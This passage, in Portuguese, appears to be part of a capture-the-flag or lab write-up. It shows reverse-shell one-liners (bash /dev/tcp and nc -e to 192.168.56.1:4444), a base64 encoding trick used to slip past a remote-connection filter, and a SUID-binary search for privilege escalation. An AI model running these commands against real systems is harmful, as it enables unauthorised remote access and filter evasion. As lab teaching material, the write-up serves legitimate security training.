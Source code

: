Primeiramente, para sabermos o bash disponível:

```bash
which bash
```

```bash
/usr/bin/bash -i >& /dev/tcp/192.168.56.1/4444 0>&1
```

ou

```bash
nc -e /bin/bash 192.168.56.1 4444
```

E na nossa máquina temos de estar ouvindo a porta 4444 com netcat:

```bash
nc -lnvp 4444
```

Mas isso não vai dar certo e tomaremos **Remote connections are forbidden.**
Para contornar, codificaremos para base64 o nosso comando, ficando assim:

YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEvNDQ0NCAwPiYxJwo= (Primeira opção)

Sendo assim, copiaremos e colaremos o seguinte no campo de comando do site:

echo 'YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEvNDQ0NCAwPiYxJwo=' | base64 -d | bash

e voilá... obtivemos o reverse shell

# Privilege Escalation

O próximo passo é procurar uma escalação de privilégio

Primeiro, procuraremos por uma permissão de root em arquivos... De novo, usaremos o comando find para isso.

```bash
find / -perm -u=s -type f 2>/dev/null
```

Como saída, temos:

```bash
bash-5.1$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
/usr/bin/sudo
/usr/bin/reset_root
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
```
